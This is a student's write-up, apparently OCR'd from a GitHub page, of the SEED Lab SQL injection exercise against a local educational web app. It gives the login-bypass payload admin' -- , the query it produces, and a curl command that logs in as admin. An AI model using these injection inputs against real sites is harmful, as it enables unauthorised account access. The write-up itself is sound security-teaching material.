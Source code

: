 From the two code excerpts above we can find 2 vulnerabilities:

1. There is no kind of cleaning made to the input of the form fields.
2. During the validation, only the username is used, not the password.

Seeing as there is no validation of the input, we can insert anything!

To login as an admin, we can input the following in the `username` field: "admin' -- " without the quotes, and anything into the password.

By doing this, we are sending the username as `admin` but commenting the `password` part using `-- '` (after the SQL comment there must be a space). this string will be replaced in the original query, so the query becomes:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= 'admin' -- ' and Password='$hashed_pwd'
```

And we can access the admin profile.

### Task 2.2

For this task, we need to do the same as in Task 2.1, but without using a webpage. So the solution is to use `curl` and do a request to the login webpage, passing as parameters the contents of the form fields.

A possible problem would be that we would need to surround the URL with single quotes, making it necessary to encode the single codes inside the URL. But since curl interprets the first argument as the URL without codes, we didn't face this problem, and the task was easy to conclude. By running the following command:

```bash
curl [http://localhost/unsafe_home.php?username=admin'+--+'&Password=](http://localhost/unsafe_home.php?username=admin%27+--+%27&Password=)
```

We got the expected result, the HTML page with the admin information:

```html
<!--
SEED Lab: SQL Injection Education Web plateform
Author: Kailiang Ying
Email: kying@syr.edu
-->

<!--
SEED Lab: SQL Injection Education Web plateform
Enhancement Version 1
Date: 12th April 2018
Developer: Kuber Kohli

Update: Implemented the new bootsrap design. Implemented a new Navbar at the top with two menu options for Home and edit profile, with a button to
logout. The profile details fetched will be displayed using the table class of bootstrap with a dark table head theme.

NOTE: please note that the navbar items should appear only for users and the page with error login message should not have any of these items at
all. Therefore the navbar tag starts before the php tag but it end within the php script adding items as required.
-->

<!DOCTYPE html>
<html lang="en">
  <head>
    <!-- Required meta tags -->
```